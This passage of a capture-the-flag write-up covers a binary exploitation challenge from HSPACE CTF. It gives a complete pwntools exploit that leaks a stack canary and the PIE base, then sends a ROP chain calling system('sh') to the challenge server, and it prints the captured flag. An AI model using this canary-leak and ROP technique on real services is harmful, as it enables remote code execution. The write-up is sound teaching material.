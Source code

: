![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2062.png)

- init()
- &[pop r15; ret] + 1 → [pop rdi; ret]

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%2063.png)

- exploit.py

```python
from pwn import *

bi = './chall'
#r = process([bi], env={'LD_PRELOAD':''})
r = remote('183.109.94.101', 9100)
e = ELF(bi)
context.arch = 'amd64'

welcome = 0x88a

pay = 'A'*0x109
r.sendafter('input > ', pay)
r.recvuntil(pay)
canary = u64(r.recv(7).rjust(8,'\x00'))
base = u64(r.recv(6).ljust(8,'\x00')) - 0xa10
log.info("canary @ {}".format(hex(canary)))
log.info("base @ {}".format(hex(base)))

sh = base + e.search('sh').next() # ps -ash
system = base + welcome + 11 # call system
prdi = base + e.search(asm('pop rdi; ret')).next()

pay = 'A'*0x108
pay += p64(canary)
pay += 'B'*8
pay += p64(prdi)
pay += p64(sh)
pay += p64(system)
r.sendafter('input > ', pay)

r.interactive()
```

FLAG: hspace{glaD_yoU_havE_thE_sH_strinG}

## [SYSTEM] Financial Stability Forum

```python
**FROM ubuntu:18.04**

Arch:     amd64-64-little
RELRO:    **Full RELRO**
Stack:    **Canary found**
NX:       **NX enabled**
PIE:      **PIE enabled**
```
